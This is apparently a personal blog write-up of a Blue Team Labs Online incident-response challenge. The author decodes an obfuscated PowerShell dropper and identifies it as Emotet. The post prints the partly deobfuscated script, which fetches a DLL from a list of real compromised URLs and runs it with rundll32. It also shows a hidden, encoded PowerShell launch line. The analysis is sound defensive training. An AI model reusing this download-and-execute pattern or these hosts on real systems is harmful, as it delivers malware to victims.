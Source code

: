 ```yaml
---
title: "Malicious PowerShell Analysis BTLO "
date: 2021-10-09T17:30:30
categories:
  - challenge
tags:
  - Blue Team Labs Online
  - Forensics
  - Incident Response
classes: wide
---
```

Continuing the skill-set diversification, a medium rated retired incident response challenge from [Blue Team Labs Online.](https://blueteamlabs.online/home/challenge/7)

>*"Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?*"

The challenge has guided questions to answer to obtain points.

---

First we unzip the challenge:

<img src="/assets/images/malpowerbtlo/mal1.PNG" alt="Unzipping the file.">

Then have a look at the contents, `BTLO.txt` contains information about the challenge source and requests to not distribute. 

Next we look at the actual challenge log `ps_script.txt`:

<img src="/assets/images/malpowerbtlo/mal2.PNG" alt="Looking at the contents.">

Welp.

<h4>De-obfuscation</h4>

It appears to be obfuscated powershell. According to [malware.news](https://malware.news/t/deobfuscating-powershell-putting-the-toothpaste-back-in-the-tube/23509):

>*"PowerShell commands can be logged and script files can be captured for analysis. This gives us a chance to perform after-action forensics to see what the attacker was up to and if they were successful. Unfortunately, attackers don’t like making this easy, so they will often obfuscate and encode commands to deter and slow down analysts."*

The opening line of the `ps_script.txt` log shows:

```powershell
POwersheLL  -w hidden -ENCOD
```
It seems powershell is case-insensitive, and autocompletes flags. 

These commands show that the powershell window was hidden with `-w hidden` and then its commands were encoded into base64 with `-ENCOD` which is encode. 

We throw the output of the `.txt` file into GCHQ's CyberChef and convert from base64:

<img src="/assets/images/malpowerbtlo/mal3.PNG" alt="Converting from base64.">

It still looks pretty difficult to read, searching around the web suggests that we try and remove null bytes from the output like so:

<img src="/assets/images/malpowerbtlo/mal4.PNG" alt="Removing null bytes.">

After removing null bytes these commands are still hard to read, more research suggests the use of CyberChef's `Generic Code Beautify`. From here we try to remove as much as we can through `find/replace` like so:

<img src="/assets/images/malpowerbtlo/mal5.PNG" alt="Using Find/replace to remove seemingly useless items.">

The final result is shown below:

```powershell
sEtMKu[TYPe]01243-FSYsTeMioDIORYrECt;
SeT-iTEMvaRIabLEmBu[TYPe]680345271-fSteMGerManetseRVIcepOintsNAY;
$ErrorActionPreference=SilentlyContinue;
$Cvmmq4o=$Q26L[char]64$E16H;
$J16J=N_0P;
DIrVariabLEMkuVaLUecREAtedIRECTORy$HOME0Db_bh300Yf5be5g0-F[chAR]92;
$C39Y=U68S;
vARiaBLembu-VAlueoNsEcuRITYproTocol=Tls12;
$F35I=I4_B;
$Swrp6tc=A69S;
$X27H=C33O;
$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;
$K47V=R49G;
$B9fhbyv=]anw[3s//admintkcom/wp-admin/L/@]anw[3s//mikegeerinckcom/c/YYsa/@]anw[3//freelancerwebdesignerhyderabadcom/cgi-bin/S/@]anw[3//etdogcom/wp-content/nu/@]anw[3s//wwwhintupcombr/wp-content/dE/@]anw[3//wwwstmarounsnsweduau/paypal/b8G/@]anw[3//wmmcdevelopnet/content/6F2gd/REplACe]anw[3[array]sdswhttp3d[1]sPLIT$C83R$Cvmmq4o$F10Q;
$Q52M=P05K;
foreach$Bm5pw6zin$B9fhbyv
try
&New-ObjectSysTemnEtWEBcLIeNTdoWNlOaDFIlE$Bm5pw6z$Imd1yck;
$Z10L=A92Q;
If&Get-Item$Imd1ycklenGTH-ge35698
&rundll32$Imd1yckControl_RunDLLTOStRiNG;
$R65I=Z09B;
break;
$K7_H=F12U

catch

$W54I=V95O
```

Now lets try and answer the questions!

<h4>What security protocol is being used for the communication with a malicious domain? </h4>

`sEcuRITYproTocol=Tls12` means TLS 1.2.

<h4>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</h4>

This took be quite a bit to figure out, but reading the line where HOME is present made it clearer:

`$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92`

We see `replace uoh [string][char]92`. Looking at char 92 in an ASCII table:

<img src="/assets/images/malpowerbtlo/mal6.PNG" alt="92 = \.">

So we can read `$HOMEUOHDb_bh30UOHYf5be5gUOH` as `\HOME\Db_bh30\Yf5be5g\`. 

<h4>What file is being downloaded (full name)?</h4>

Looking back at our HOME line we see: 

`$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;`

Since we now know that the directory the script creates is `\HOME\Db_bh30\Yf5be5g\` anything after `[StrInG][chAr]92` should be our downloaded file. 

Thus `$Swrp6tcdll` is the downloaded file, dll seems to be the file extension. We can try `Swrp6tc.dll`. 

However this is not correct. If we search for other references to `Swrp6tc` in the logs we find `$Swrp6tc=A69S;`, `$Swrp6tc` is a variable! This should have been obvious from the `$` sign in front of it. 

We instead try `A69S.dll` which is correct!

<h4>What is used to execute the downloaded file?</h4>

Now that we know it is a dll file, we see `&rundll32$Imd1yckControl_RunDLLTOStRiNG;` and see if `rundll32` is the `.exe` used to execute the file. 

It is correct!

<h4>What is the domain name of the URI ending in ‘/6F2gd/’</h4>

Searching through our logs we see the line `wmmcdevelopnet/content/6F2gd`. The URI doesn't make much sense without the `.` which we removed earlier through find/replace. 

Heading back to CyberChef to add them back in we see: `wm.mcdevelop.net/content/6F2gd` meaning the answer is `wm.mcdevelop.net`.

<h4>Based on the analysis of the obfuscated code, what is the name of the malware?</h4>

Googling around for the `A69S.dll` we come across MalwarebBazaar's [database](https://bazaar.abuse.ch/sample/23be1cb22c94fe77cea5f8e7fef6710eeef5a23e7e7eb9b9dd53f56d1b954269/) which suggests that the malware name is `Emotet (aka Heodo)`. We try Emotet and are rewarded with challenge complete!

<img src="/assets/images/malpowerbtlo/mal7.PNG" alt="https://blueteamlabs.online/achievement/share/challenge/14446/7">